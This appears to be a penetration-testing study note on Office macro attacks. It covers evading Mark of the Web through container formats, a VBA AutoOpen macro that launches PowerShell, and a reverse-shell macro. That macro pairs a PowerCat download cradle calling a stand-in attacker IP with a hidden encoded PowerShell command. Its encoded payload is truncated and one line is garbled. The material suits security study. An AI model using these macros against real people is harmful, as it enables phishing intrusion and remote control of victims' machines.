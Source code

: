 # Microsoft Office



## Mark of the Web (MOTW)
If we successfully manage to deliver the Office document to our target via email or download link, the file will be tagged with the Mark of the Web (MOTW) and will open in Protected View (which disables all editing and modification settings in the document and blocks the execution of macros or embedded objects).

MOTW is not added to files on FAT32-formatted devices.

It is possible to avoid getting a file flagged with MOTW by providing it in container file formats like 7zip, ISO, or IMG.




## Macros

Macros are one of the oldest and best-known client-side attack vectors.

- < https://support.office.com/en-us/article/Create-or-run-a-macro-C6B99036-905C-49A6-818A- DFB98B7C3C9C>

- <https://docs.microsoft.com/en-us/office/vba/api/overview/>

Macros can be written from scratch in Visual Basic for Applications (VBA), which is a powerful scripting language with full access to ActiveX objects and the Windows Script Host, similar to JavaScript in HTML Applications.





### Filetype
Save the file in the `.doc` format. This is important because the newer `.docx` file type cannot save macros without attaching a containing template. This means that we can run macros within `.docx` files but we can't embed or save the macro in the document. In other words, the macro is not persistent. Alternatively, we could also use the `.docm` file type for our embedded macro.




### PoC

This VBA code just opens PowerShell:
```
Sub AutoOpen()
	MyMacro
End Sub
Sub Document_Open()
	MyMacro
End Sub
Sub MyMacro()
	CreateObject("Wscript.Shell").Run "powershell"
End Sub
```




### Reverse shell with PowerCat

We'll use a base64-encoded PowerShell download cradle to download PowerCat and start the reverse shell.

The encoded PowerShell command will be declared as a String in VBA.

We should note that VBA has a 255-character limit for literal strings and therefore, we can't just embed the base64-encoded PowerShell commands as a single string. This restriction does not apply to strings stored in variables, so we can split the commands into multiple lines (stored in strings) and concatenate them.



Declare a string variable named `Str` with the `Dim` keyword, which we'll use to store our PowerShell download cradle and the command to create a reverse shell with PowerCat.

`Dim` stands for Dimension.
It is a keyword used to declare and allocate storage space for variables.
When you use `Dim`, you are essentially telling the compiler to create a variable of a certain type and, optionally, initialize it.


```
' PowerShell command to download cradle and PowerCat reverse shell 
' IEX(New-Object System.Net.WebClient).DownloadString('http://[ATTACKER IP]/powercat.ps1');powercat -c [ATTACKER IP] -p 4444 -e powershell



SubEndAutoOpen()
	MyMacro
End Sub

Sub Document_Open()
	MyMacro
End Sub

Sub MyMacro()
	Dim Str As String
	
	Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
		Str = Str + ""

	CreateObject("Wscript.Shell").Run Str
End Sub
```















